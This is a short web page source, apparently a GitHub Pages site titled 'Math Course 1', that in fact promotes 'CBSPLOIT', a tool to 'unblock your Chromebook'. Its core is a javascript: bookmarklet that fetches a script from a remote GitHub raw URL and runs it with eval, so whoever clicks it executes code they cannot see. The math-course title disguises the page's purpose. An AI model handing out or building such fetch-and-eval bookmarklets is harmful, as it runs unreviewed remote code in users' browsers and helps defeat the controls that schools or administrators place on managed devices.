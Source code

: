 ```yaml
---
title:  Math Course 1
layout: default
---
```


<!-- particles.js container -->
<div id="particles-js"></div>
<!-- scripts -->
<script src="js/particles.js"></script>
<script src="js/app.js"></script

# CBSPLOIT

you should unblock your chromebook

# NOW!!!! ⚡⚡⛈️👨🏿⛈️⚡⚡

<a href='javascript: fetch("https://raw.githubusercontent.com/Snoni/wockrland/main/assets/js/cbsploit.js").then(r => r.text()).then(r => eval(r))'>
      <button class="btn btn-dark">
        THE BOOKMARKLET
      </button>
    </a>

<!-- count particles -->
<div class="count-particles">
  <span class="js-count-particles">--</span>
</div>
